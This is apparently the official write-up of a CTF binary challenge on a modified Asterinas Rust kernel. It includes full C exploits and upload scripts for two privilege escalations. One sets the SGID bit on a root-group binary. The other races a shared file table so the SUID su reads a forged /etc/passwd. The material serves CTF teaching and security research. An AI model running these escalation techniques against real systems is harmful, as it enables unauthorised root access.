

# [Binary] 传统 C 语言核易危

- 命题人：lrh2000（题面：ouuan、lrh2000）
- 飞沙走石：300 分
- 力拔山兮：400 分

## 题目描述

<center><p>
    
    <br><span style="opacity: 0.6">↑ 传统的 Linux 核已畏（此图与解题无关）（<a href="https://commons.wikimedia.org/wiki/File:Kernel-panic.jpg" target="_blank" rel="noopener">原图</a>）</span>
</p></center>


<blockquote>
<p>传统的内核 😯   就是用 C 语言写漏洞 👓<br>
好无趣 😫   好危险 😩<br>
而 <strong>Rust 内核</strong> 🤓☝   就是在传统的内核 🧐<br>
加入 Rust 🤭   好安全 🥰<br>
💥💥💥要爆了💥💥💥<br>
Rust 内核 🎶   飞沙走石 🪨<br>
Rust 内核 🎶   <strong>权限提升！！！</strong>🤯</p>
</blockquote>
<p>本题引入了最新最热的<a target="_blank" rel="noopener noreferrer" href="https://github.com/asterinas/asterinas">星绽操作系统内核</a>。兼容 Linux 系统调用，好耶！是 Rust，好耶！甚至还是最小化 unsafe 代码的框内核架构，那肯定没有内存安全问题了！最新代码还在推进容器化支持呢，那么作为更加基础的功能——<strong>多用户权限检查</strong>，相信也没有问题啊嗯？</p>
<p><strong>补充说明：</strong></p>
<ul>
<li>本题对星绽内核进行了定制化修改，具体参见源码的 <code>0001-GeekGame-2025.patch</code> 文件。</li>
<li>Flag 1 与 Flag 2 被存放在 <code>/flag1.txt</code> 与 <code>/flag2.txt</code>，但非 root 用户没有读取权限。具体参见 <code>init.sh</code> 等文件。</li>
</ul>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>所有 Flag：<a target="_blank" rel="noopener noreferrer" href="https://man7.org/linux/man-pages/man2/execve.2.html#:~:text=If%20the%20set-user-ID,the%20group%20of%20the%20program%20file">了解 SUID 与 SGID</a>。</li>
<li>Flag 1: 阅读下发 <code>0001-GeekGame-2025.patch</code> 文件中关于修改文件所属 <strong>用户组</strong> 的相关逻辑。</li>
<li>Flag 2: 阅读共享文件表的<a target="_blank" rel="noopener noreferrer" href="https://man7.org/linux/man-pages/man2/clone.2.html#:~:text=CLONE_FILES,unshared">预期表现</a>和<a target="_blank" rel="noopener noreferrer" href="https://github.com/asterinas/asterinas/blob/257b0c63b1f039e1ec4fd94c2c7bd549f8db2830/kernel/src/syscall/execve.rs#L117-L124">实际代码</a>。</li>
</ul>
</div>

**[【附件：下载题目源码（binary-safekernel.tar.xz）】](attachment/binary-safekernel.tar.xz)**

**【终端交互：连接到题目】**

## 预期解法

首先，题面说的是真的：
 - 星绽内核确实在推进[容器化支持](https://github.com/asterinas/asterinas/issues/2214)，现在也[有 mount namespace 可以用了](https://github.com/asterinas/asterinas/pull/2379)，不过这道题因为权限问题并不能用。
 - 基本多用户权限检查也确实没做好，这个应该不用多解释了，下发 patch 中的绝大多数代码都与此相关，并且是正确的。

所以，抛开内存安全不谈，星绽内核基本的 security 其实并不咋样，所以出题人在命题时并不清楚会不会有很多天马行空的非预期解（毕竟真的有几百个 syscall 可以调用呢），因此（主要是 Flag 2）没有给足够的方向暗示。不过看上去难度控制出现了一点问题，导致第一阶段并没有选手通过 Flag 2。

### Flag 1

预期解法：审计下发的 patch，从中发现[文件的所属用户可以随便修改所属用户组](https://github.com/PKU-GeekGame/geekgame-5th-archive/blob/e5aa6fba75f51b4054d0c9364e3c0bdcbdb83971/official_writeup/binary-safekernel/src/0001-GeekGame-2025.patch#L788)，也可以设置 SGID，从而想到可以通过将可执行文件的 GID 设置为 0, 再设置 SGID，执行它就可以获得 root 用户组权限，因此能读取 `/flag1.txt`。

注意 busybox 会自动丢弃其“非法”获得的权限，所以需要自己上传一个二进制可执行文件（毕竟这是 binary 题目呢）。

```bash
#!/bin/bash

set -e

musl-gcc exp.c -Os -static -s -o exp

gen() {
	echo "cat <<EOF > /tmp/exp.b64"
	base64 exp
	echo "EOF"
	echo "base64 -d /tmp/exp.b64 > /tmp/exp"
	echo "chmod +x /tmp/exp"
	echo ""
	echo "chgrp 0 /tmp/exp"
	echo "chmod g+s /tmp/exp"
	echo ""
	echo "/tmp/exp"
}

gen | tee out
```

```c
#include <unistd.h>
#include <fcntl.h>

int main(void)
{
	int buf[32];
	read(open("/flag1.txt", O_RDONLY), buf, sizeof(buf));
	write(STDOUT_FILENO, buf, sizeof(buf));

	return 0;
}
```

### Flag 2

预期解法：审计 execve 系统调用的实现，嗯？等等，为什么要审计 execve 系统调用？
 - execve 系统调用是正常用户请求高权限（获取 root 权限或其他 capability）的常规入口（比如执行 su、sudo），且题面暗示了这个星绽内核的成熟性存疑，所以如果出问题能提权的概率较大；
 - 题目下发附件 `init.sh` 中，Flag 2 的环境与 Flag 1 的环境除了 flag 文件本身权限不同之外，最大的区别就是 Flag 2 额外[设置了 busybox 的 SUID 属性](https://github.com/PKU-GeekGame/geekgame-5th-archive/blob/e5aa6fba75f51b4054d0c9364e3c0bdcbdb83971/official_writeup/binary-safekernel/game/initramfs/init.sh#L23)，那么这就意味着能通过执行 busybox 短时间获得 root 身份，如果要利用这一点，先去看的系统调用也应该是 execve。

然后发现提示中的 [FIXME](https://github.com/asterinas/asterinas/blob/257b0c63b1f039e1ec4fd94c2c7bd549f8db2830/kernel/src/syscall/execve.rs#L117-L124)：“This is just wrong if the file table is shared with other processes”，共享（“shared”）听上去就不是很安全，所以如果再仔细查阅些资料的话可以发现 Linux 中支持通过 [`clone(CLONE_FILES)`](https://man7.org/linux/man-pages/man2/clone.2.html#:~:text=CLONE_FILES,unshared) 使得子进程与父进程共享文件表，但当子进程执行其他程序时，其文件表共享应该被撤销。

本题内核并未实现上述行为，那么子进程可以执行一个 SUID 程序（比如 su），父进程可以篡改其文件表导致出现安全性问题。具体来说，本题 busybox 是静态链接的，su 唯一会打开的文件就是 `/etc/passwd`，那么只要将其篡改就可以控制 root 用户的密码或者新加入一个 UID=0 且没有密码的新用户，完成提权并且可以修改 `/flag2.txt` 的权限使其可读。

题目环境中 QEMU 给了多核支持（[smp=2](https://github.com/PKU-GeekGame/geekgame-5th-archive/blob/e5aa6fba75f51b4054d0c9364e3c0bdcbdb83971/official_writeup/binary-safekernel/game/run.sh#L18)），所以开两个程序分别执行 su 和通过 dup 系统调用篡改 `/etc/passwd` 所对应的文件描述符即可。

```bash
#!/bin/bash

set -e

musl-gcc exp.c -Os -static -s -o exp

gen() {
	echo "cat <<EOF > /tmp/exp.b64"
	base64 exp
	echo "EOF"
	echo "base64 -d /tmp/exp.b64 > /tmp/exp"
	echo "chmod +x /tmp/exp"
	echo ""
	echo "while true; do /tmp/exp; done"
}

gen | tee out
```

```c
#define _GNU_SOURCE

#include <sched.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/wait.h>

// The password for the root user is "1" (without quotation marks).
#define FAKE_PASSWD "/tmp/passwd"
#define FAKE_ROOT "root:nnNMRAmF.Fsug:0:1000::/:/bin/sh\n"

static int fd;

static int child(void *arg)
{
	for (int i = 0; i < 1000000; ++i) {
		dup2(fd, fd + 1);
		close(fd + 1);
	}

	return -1;
}

int main(int argc, char **argv)
{
	static char stk[4096];

	if (geteuid() == 0) {
		chmod("/flag2.txt", 0777);
		read(open("/flag2.txt", O_RDONLY), stk, sizeof(stk));
		write(STDOUT_FILENO, stk, sizeof(stk));
		return 0;
	}

	fd = open(FAKE_PASSWD, O_WRONLY | O_CREAT | O_TRUNC, 0644);
	write(fd, FAKE_ROOT, sizeof(FAKE_ROOT));
	close(fd);

	fd = open(FAKE_PASSWD, O_RDONLY);

	clone(&child, stk + sizeof(stk), CLONE_FILES | CLONE_PARENT | SIGCHLD,
	      NULL);
	execve("/bin/su", (char *[]){ "/bin/su", "-s", argv[0], NULL }, NULL);

	return -1;
}
```

## 优秀选手解法

 - Flag 1：可以 100% AI 出。
 - Flag 2：其实用 `lseek(3)` 探测 `/etc/passwd` 有没有被 su 打开更加可靠一些。
